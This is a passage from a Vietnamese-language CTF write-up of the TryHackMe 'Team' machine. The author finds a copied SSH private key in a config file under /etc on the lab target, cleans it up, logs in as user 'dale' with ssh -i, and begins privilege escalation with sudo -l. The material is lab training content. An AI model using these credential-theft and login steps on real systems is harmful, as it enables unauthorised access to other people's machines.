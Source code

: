 Quay lại với file txt mà tôi có phía trên, tôi có 1 key ssh bên trong file config nào đó. Thường thì trong */etc/* của Ubuntu sẽ có tệp *ssh* chứa file config, nên tôi sẽ thử cầu may 1 chút xem có file này trong máy chủ mục tiêu hay không, thêm nữa đây là 1 machine mức Easy nên tôi nghĩ sẽ không có quá nhiều thay đổi với các file đã có sẵn

![id_rsa](/assets/img/2022-03-04-THM-Team/6.webp)

Đúng như tôi nghĩ, bản copy của *id_rsa* nằm trong này. Sao chép nó về, xáo các dấu # và thử login ssh bằng key này

```python
┌──(neo㉿kali)-[~]
└─$ ssh -i id_rsa dale@10.10.133.54        
The authenticity of host '10.10.133.54 (10.10.133.54)' can't be established.
ED25519 key fingerprint is SHA256:33en2c6AmAEzI4zDeUH4EyLRpyzjrXxptkcSHBnTVbA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.133.54' (ED25519) to the list of known hosts.
Last login: Mon Jan 18 10:51:32 2021
dale@TEAM:~$ id
uid=1000(dale) gid=1000(dale) groups=1000(dale),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare),1003(editors)
dale@TEAM:~$
dale@TEAM:~$ ls
user.txt
dale@TEAM:~$
```

## Privilege escalation

`sudo -l`

